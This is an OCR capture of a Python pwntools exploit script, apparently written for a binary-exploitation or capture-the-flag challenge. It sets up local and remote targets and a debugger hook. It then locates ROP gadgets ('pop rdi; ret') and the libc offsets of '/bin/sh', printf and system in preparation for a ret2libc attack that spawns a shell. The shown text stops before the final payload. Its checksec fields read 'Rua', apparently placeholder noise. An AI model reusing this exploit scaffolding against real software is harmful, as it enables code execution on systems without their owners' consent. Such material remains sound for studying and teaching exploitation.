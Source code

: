 ```
    if args.GDB:
        gdb.attach(io, gdbscript=gdbscript)
    return io


def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.LOCAL:
        return start_local(argv, *a, **kw)
    else:
        return start_remote(argv, *a, **kw)


# ===========================================================
#                    EXPLOIT GOES HERE
# ===========================================================
# Arch:     Rua
# RELRO:    Rua
# Stack:    Rua
# NX:       Rua
# PIE:      Rua

# Specify your GDB script here for debugging
# GDB will be launched if the exploit is run via e.g.
# ./exploit.py GDB
gdbscript = '''
tbreak main
continue
'''.format(**locals())


def log_print(*msg):
    log.info(" ".join(msg))


def int2byte(x: int):
    return x.to_bytes(exe.bytes, "little")


def wait_for_debugger(io):
    if args.LOCAL and input("debugger?") == "y\n":
        pid = util.proc.pidof(io)[0]
        log_print("The pid is: " + str(pid))
        util.proc.wait_for_debugger(pid)
        log_print("press enter to continue")


# ======== gadget stuff =========
ret_addr = exe_rop.find_gadget(['ret'])[0]
pop_rdi_ret_addr = exe_rop.find_gadget(['pop rdi', 'ret'])[0]
log_print("pop rdi; ret", hex(pop_rdi_ret_addr))
pop_rsi_r15_ret_addr = exe_rop.find_gadget(['pop rsi', 'pop r15', 'ret'])[0]
log_print("pop rsi; pop r15; ret", hex(pop_rsi_r15_ret_addr))
# ============================


# ======== libc stuff =========
libc_bin_sh_offset = next(libc.search(b"/bin/sh"))
log_print("libc /bin/sh offset", hex(libc_bin_sh_offset))
libc_printf_offset = libc.sym["printf"]
log_print("libc printf offset", hex(libc_printf_offset))
libc_system_offset = libc.sym["system"]
log_print("libc system offset", hex(libc_system_offset))
```